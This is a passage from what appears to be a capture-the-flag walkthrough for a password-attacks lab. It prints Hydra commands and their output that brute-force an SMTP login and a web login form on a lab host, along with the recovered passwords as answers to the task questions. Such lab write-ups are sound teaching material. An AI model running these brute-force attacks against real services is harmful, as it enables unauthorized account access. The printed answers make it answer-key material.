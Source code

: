 ```
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.163.182   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00
[STATUS] attack finished for 10.10.163.182 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-10 16:01:45


```


In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.163.182:25 (SMTP).

	What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].
	Use the previously generated John rule from Offline Attacks #2 in your attack! Where [symbol]=[!@]

*!multidisciplinary00*

```
┌──(kali㉿kali)-[~]
└─$ hydra -l phillips -P clinic.lst 10.10.163.182 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 105 login tries (l:1/p:105), ~7 tries per task
[DATA] attacking http-get-form://10.10.163.182:80/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php
[80][http-get-form] host: 10.10.163.182   login: phillips   password: Paracetamol                                                                   
[STATUS] attack finished for 10.10.163.182 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-10 16:04:33

```

Perform a brute-forcing attack against the phillips account for the login page at http://10.10.163.182/login-get using hydra? What is the flag?
 use the clinic.lst dictionary to find the password
